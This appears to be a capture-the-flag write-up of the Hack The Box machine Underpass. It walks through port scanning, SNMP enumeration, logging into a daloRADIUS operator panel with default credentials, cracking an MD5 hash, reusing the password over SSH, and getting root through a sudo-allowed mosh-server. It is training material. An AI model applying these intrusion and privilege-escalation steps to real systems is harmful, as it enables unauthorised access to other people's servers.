




Hello dear viewer,

In this write-up I will guide you through the Underpass virtual machine from Hack The Box. If you're new to Hack The Box, it's a popular online platform offering a wide variety of cybersecurity challenges, including Capture The Flag (CTF) exercises, extensive academy modules, and more.

After we connected to the VPN, we started a basic enumeration scan on various server ports using `nmap`.

```bash
# Nmap 7.94SVN scan initiated Mon Mar 24 19:24:07 2025 as: nmap -sC -sV -oA nmap/step1 -v 10.10.11.48
Nmap scan report for 10.10.11.48
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 24 19:24:17 2025 -- 1 IP address (1 host up) scanned in 9.91 seconds
```

The scan concluded and there are only 2 open ports, `port 22 (SSH)` and `port 80 (HTTP)`. The server appears to be running Ubuntu, but we don't see any other particularly interesting information. 
Connecting to the web server we got the default Apache2 page.


We started a web discovery scan using `ffuf`, but the results are underwhelming and we didn't get any valuable information from them either. As you can see, we used a large wordlist.

```bash
┌─[george@parrot]─[~/htb/lvl1/underPass/ffuf]
└──╼ $ffuf -u http://10.10.11.48/FUZZ -w ~/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.48/FUZZ
 :: Wordlist         : FUZZ: /home/george/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 66ms]
                        [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 55ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 52ms]
:: Progress: [1185241/1185241] :: Job [1/1] :: 743 req/sec :: Duration: [0:26:49] :: Errors: 0 ::
```

Going back to the port enumeration phase, we started a full TCP scan for all the 65535 ports, a process that would take some time. Also we started an UDP port scan on the default ports, to see if any service is running on them as well.

```bash
# Nmap 7.94SVN scan initiated Tue Mar 25 13:52:46 2025 as: nmap -sU -sC -sV -oA nmap/step2u 10.10.11.48
Nmap scan report for 10.10.11.48
Host is up (0.063s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT     STATE         SERVICE VERSION
161/udp  open          snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 18h50m11s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 18h50m11.55s (6781155 timeticks)
1812/udp open|filtered radius
1813/udp open|filtered radacct
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 25 14:11:54 2025 -- 1 IP address (1 host up) scanned in 1147.70 seconds
```

The scan concluded after some time and as we can see we had an open port and two ports filtered as a result. The `port 161` UDP is the default port for `SNMP (Simple Network Management Protocol)` and it revealed some information that we could investigate further, using `snmp-check`.

```bash
┌─[george@parrot]─[~/htb/lvl1/underPass]
└──╼ $snmp-check 10.10.11.48
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 01:11:18.12
  Uptime system                 : 01:11:07.88
  System date                   : 2025-5-2 20:50:16.0
```

First of all, now we had a domain name that resolved to the target IP, which was `underpass.htb`, and also that this was *the only daloradius server in the basin*. I didn't know what that meant, so I had to look it up. Searching online for the keywords **daloradius server** we found the following [website](https://www.daloradius.com/).

> daloRADIUS is an advanced RADIUS web platform aimed at managing Hotspots and general-purpose ISP deployments. It features rich user management, graphical reporting, accounting, and integrates with GoogleMaps for geo-locating (GIS). daloRADIUS is written in PHP and JavaScript and utilizes a database abstraction layer which means that it supports many database systems, among them the popular MySQL, PostgreSQL, Sqlite, MsSQL, and many others.

Secondly, the SNMP data revealed an email address that included a possible username: *steve*. We noted this as a potential lead that could be handy later.

We added `underpass.htb` to our `/etc/hosts` file on our machine.

```sh
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others
10.10.11.48 underpass.htb
```

Looking around the webpage and the official [GitHub repository](https://github.com/lirantal/daloradius), within the application's file structure, there is a folder called `users` and one called `operators`. Also, from the GitHub page, we found a [guide](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS) that explains how to install and log in to the platform.
The default credentials can be found [here](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS#testing-the-infrastructure), and there are:

|Username |Password |
| --- | --- |
|administrator  |radius  |

Taking into consideration the Wiki, the installation guide and some manual fuzzing, we found the following URLs for the login pages:
* for users: http://underpass.htb/daloradius/app/users/login.php
* for operators: http://underpass.htb/daloradius/app/operators/login.php

The form:


Trying the default credentials in the user login page, we didn't have any luck, but on the operator login form, they worked. So,  we were now logged in as the `administrator` on the platform and we could look around for misconfiguration or valuable information. We checked `management > users list` and there we found, a username and a password in MD5 format.


MD5 is a weak hashing algorithm that is considered broken for many years now, and using the [CrackStation](https://crackstation.net/) we were able to find the original password that matched this hash value in seconds.

Owned  credentials:
| Username | Hash | Password  |
| --- | --- | --- |
| svcMosh | 412DD4759978ACFCC81DEAB01B382403 | underwaterfriends |

My first thought was to use the above credentials to SSH on the remote server, based on the common tendency of humans to reuse the same password for different platforms and services. 

```bash
┌─[george@parrot]─[~/htb/lvl1/underPass/www]
└──╼ $ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

[SNIP]

Last login: Sun May  4 08:13:01 2025 from 10.10.14.12
svcMosh@underpass:~$ 
```

We were correct and the credentials worked. Now we were on the server as the user `svcMosh`.


We noticed that there was an  `id_rsa` private key located in the `.ssh` folder, and it worked like a charm:

```bash
┌─[george@parrot]─[~/htb/lvl1/underPass]
└──╼ $ssh -i mosh.id svcMosh@underpass.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

[SNIP]
```

Now we were able read the `user.txt` to get the user flag, but we also needed to find a way to perform privilege escalation to the `root` user. It's a common practice to execute the command `sudo -l` to see what permissions the user has on the server, what commands can run using `sudo` and if there is a need for a password or not.

```bash
svcMosh@underpass:~/.ssh$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

```

We noticed that we could execute `/usr/bin/mosh-server` using `sudo` without a password. I didn't know what the **Mosh Server** was, and I did some digging. I found that [GitHub repository](https://github.com/mobile-shell/mosh), and after some reading I understood that after the server is initiated, you need to have a `mosh-client` that lets connect on the server using the `session key` that is generated when the server starts.

```
svcMosh@underpass:~$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 3wHF0ozytjaZVqWqj8h0TQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 1676]

svcMosh@underpass:~$ mosh-client --help
mosh-client (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Usage: mosh-client [-# 'ARGS'] IP PORT
       mosh-client -c

svcMosh@underpass:~$ MOSH_KEY=3wHF0ozytjaZVqWqj8h0TQ mosh-client 127.0.0.1 60001
```

As you can see above, I initiated the server, I took the `session key` (*MOSH_KEY*) and then I used the `mosh-client` to connect to the server on the `port 60001`. After that, because the `mosh-server` was initiated using sudo as the root user, we were logged in as `root`, we were able to get the root flag from the `root.txt` file.

```
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun May  4 08:13:00 AM UTC 2025

[SNIP]

root@underpass:~# ls -lah
total 44K
drwx------  6 root root 4.0K May  4 08:04 .
drwxr-xr-x 18 root root 4.0K Dec 11 16:06 ..
lrwxrwxrwx  1 root root    9 Nov 30 10:39 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Oct 15  2021 .bashrc
drwx------  2 root root 4.0K Sep 22  2024 .cache
drwx------  3 root root 4.0K Dec 11 13:40 .config
-rw-------  1 root root   20 Dec 19 12:42 .lesshst
drwxr-xr-x  3 root root 4.0K Dec 11 16:06 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4.0K Dec 11 16:06 .ssh
-rw-r--r--  1 root root  165 Dec 11 16:38 .wget-hsts
-rw-r-----  1 root root   33 May  4 08:04 root.txt
root@underpass:~# pwd
/root
root@underpass:~# 

```

And with that, we successfully compromised the Underpass machine, gaining both the user and root flags. This challenge highlighted the importance of thorough port and service enumeration, as well as carefully examining `sudo` permissions for potential privilege escalation vectors. I hope this write-up was clear and helpful for anyone looking to understand how this machine was solved. Thank you for following along, be happy, and keep hacking.